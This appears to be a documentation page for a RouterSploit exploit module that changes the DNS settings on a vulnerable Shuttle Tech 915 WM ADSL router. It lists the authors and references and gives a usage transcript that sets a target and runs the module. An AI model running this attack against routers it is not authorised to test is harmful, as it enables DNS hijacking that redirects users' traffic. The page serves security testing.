 # Shuttle 915 WM DNS Change

## Description
Module exploits Shuttle Tech ADSL Modem-Router 915 WM dns change vulnerability.If the target is vulnerable it is possible to change dns settings.

## Authors
* Todor Donev <todor.doven[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/35995/](https://www.exploit-db.com/exploits/35995/)
* [https://github.com/jh00nbr/Routerhunter-2.0](https://github.com/jh00nbr/Routerhunter-2.0)

## Vulnerable devices
* Shuttle Tech ADSL Modem-Router 915 WM

## Usage
```
rsf > use exploits/shuttle/915wm_dns_change
rsf (Shuttle 915 WM DNS Change) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name     Current settings     Description
   ----     ----------------     -----------
   dns2     8.8.4.4              Seconary DNS Server
   dns1     8.8.8.8              Primary DNS Server


rsf (Shuttle 915 WM DNS Change) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Shuttle 915 WM DNS Change) > run
[*] Running module...
```
